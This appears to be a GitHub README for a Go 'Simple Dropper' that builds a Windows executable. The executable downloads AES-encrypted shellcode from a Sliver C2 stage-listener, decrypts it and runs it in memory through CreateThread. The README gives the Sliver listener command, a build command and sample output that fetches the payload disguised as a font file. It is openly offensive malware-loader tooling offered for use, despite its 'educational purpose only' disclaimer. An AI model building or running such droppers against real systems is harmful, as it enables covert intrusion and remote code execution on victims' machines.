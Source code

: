 # Simple Dropper

### Description

Generate dropper to do these things for you:

1. Download aes encrypted shellcode from stage-listener's url
2. Decrypt it
3. Run it using CreatThread method

### Usage

Have your sliver's http(s) stage-listener ready like this:
```
sliver> stage-listener -u https://example.com:443 --aes-encrypt-key <key> --aes-encrypt-iv <iv> -p <your implant profile>
```

Run this project with the url and aes key
```
go run . -u https://example.com -k <key>

[+] Request: https://example.com/font.woff
[+] AES Key: <key>
[+] Binary : out/out.exe
```

Run it on windows to see the binary gives you any luck

> Educational purpose only
